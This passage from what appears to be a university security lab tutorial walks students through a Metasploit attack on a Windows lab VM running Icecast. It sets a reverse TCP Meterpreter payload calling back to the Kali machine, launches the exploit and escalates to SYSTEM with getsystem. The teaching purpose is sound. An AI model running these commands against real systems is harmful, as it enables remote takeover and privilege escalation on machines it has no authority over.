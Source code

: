         set payload windows/meterpreter/reverse_tcp

    Meterpreter is a shell, like Bash, except evil. It is malware. This specific payload will open a reverse TCP connection from the exploited Windows VM back to the Kali VM, punching through most external-facing firewalls.
    This is why it is important that you are able to reach Kali from Windows, and Windows from Kali.
    
12.	Type `show options` again to see the options that are required for this payload.

13.	To set the local host variable, type 

        set lhost <IP address of the Kali machine>
        
    <div class='alert alert-info'><strong>Note:</strong> Remember that you can easily check your IP in Unix/Linux by typing <code>ifconfig</code> or <code>ip</code> from within Metasploit.</div>
    
    Type `show options` to see that the variable has been set.

14.	With all options set, now it’s time to <span class='label label-danger'><i class='fa fa-rocket'></i> launch the exploit!</span>. Type: 

        exploit
        
    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the “meterpreter >” prompt. If you see this, then <i class='fa fa-birthday-cake'></i> congratulations! You’ve exploited your first remote host. 

16. Laugh maniacally.

    {% if site.instructorcollab_username == 'deargle' %}
    <div class='alert alert-info'><strong>Introspective question:</strong> How did it feel to laugh maniacally? Do you comprehend the potency of your newfound power? Did anyone overhear
    you laughing maniacally?</div>

    <div class='alert alert-danger'><strong><i class='fa fa-lg fa-info-circle'></i></strong> Never forget that you are a script kiddie.</div>
    {% endif %}


## Explore meterpreter

Now, let's explore meterpreter and our newfound power. Run a few commands to give an idea of the power of the meterpreter interface. 

29.	To see all possible Meterpreter commands, type `help`.

17. Type `sysinfo` to see information about the compromised system.

17. Type `getuid` to see the system user you now control.


## `getsystem`

18. Because Icecast was "run as administrator", we can easily become SYSTEM -- the Windows equivalent of "root". Escalate your privileges by typing `getsystem`. Type `getuid` again. You should see that you have “NT AUTHORITY\SYSTEM,” which means you administrator privileges. 

19. Now that you are SYSTEM, laugh again.
